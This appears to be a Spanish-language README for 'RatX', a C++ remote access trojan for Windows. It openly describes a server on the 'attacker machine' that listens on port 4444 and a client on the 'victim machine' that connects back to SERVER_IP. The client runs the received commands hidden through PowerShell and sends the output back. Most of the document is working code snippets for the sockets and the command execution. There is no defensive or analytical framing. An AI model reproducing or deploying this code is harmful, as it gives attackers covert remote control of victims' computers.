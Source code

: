 # RatX - Servidor y Cliente RAT en C++ (Windows 10)

## Configuración y Funciones Esenciales

### Configuración del RAT
1. **Servidor**:
   - Debe ejecutarse en la máquina atacante.
   - Escucha en el puerto `4444` por conexiones entrantes del cliente.
   - Se asegura de que Winsock esté inicializado antes de crear el socket.
   
2. **Cliente**:
   - Se ejecuta en la máquina víctima.
   - Se conecta al servidor en la dirección IP definida (`SERVER_IP`).
   - Ejecuta comandos recibidos y envía la salida al servidor.

### Funciones Claves

#### **1. Inicialización de Winsock**
```cpp
void initWinsock() {
    WSADATA wsa;
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
        std::cerr << "Error al inicializar Winsock" << std::endl;
        exit(1);
    }
}
```
- Configura la librería Winsock para el manejo de sockets en Windows.
- Si la inicialización falla, muestra un error y finaliza la ejecución.

#### **2. Crear y enlazar socket del servidor**
```cpp
serverSocket = socket(AF_INET, SOCK_STREAM, 0);
server.sin_family = AF_INET;
server.sin_addr.s_addr = INADDR_ANY;
server.sin_port = htons(PORT);

bind(serverSocket, (struct sockaddr*)&server, sizeof(server));
listen(serverSocket, 3);
```
- Crea un socket TCP.
- Lo enlaza a cualquier dirección IP disponible en el puerto `4444`.
- Lo pone en modo de escucha para aceptar conexiones.

#### **3. Aceptar conexiones en el servidor**
```cpp
clientSocket = accept(serverSocket, (struct sockaddr*)&client, &clientSize);
```
- Espera hasta que un cliente se conecte.
- Retorna un nuevo socket para manejar la comunicación con ese cliente.

#### **4. Recibir y ejecutar comandos en el cliente**
```cpp
std::string executeCommand(const std::string& command) {
    std::string fullCommand = "powershell -Command \"" + command + "\"";
    char buffer[BUFFER_SIZE];
    std::string result;
    FILE* pipe = _popen(fullCommand.c_str(), "r");
    if (!pipe) return "Error al ejecutar el comando";
    while (fgets(buffer, sizeof(buffer), pipe) != nullptr) {
        result += buffer;
    }
    _pclose(pipe);
    return result;
}
```
- Ejecuta el comando recibido usando `PowerShell`.
- Captura la salida y la devuelve como string.
- Se usa `_popen()` para ejecutar comandos y leer la salida.

#### **5. Enviar respuesta al servidor**
```cpp
std::string output = executeCommand(command);
output += "\n[END]";
send(clientSocket, output.c_str(), output.length(), 0);
```
- La respuesta del comando se envía de vuelta al servidor.
- Se agrega `"[END]"` como delimitador para indicar el fin de la respuesta.

### **Resumen**
- El servidor escucha en `4444`, acepta conexiones y envía comandos.
- El cliente se conecta, recibe comandos, los ejecuta y devuelve la respuesta.
- Se usa `PowerShell` para ejecutar los comandos de manera oculta en la máquina víctima.

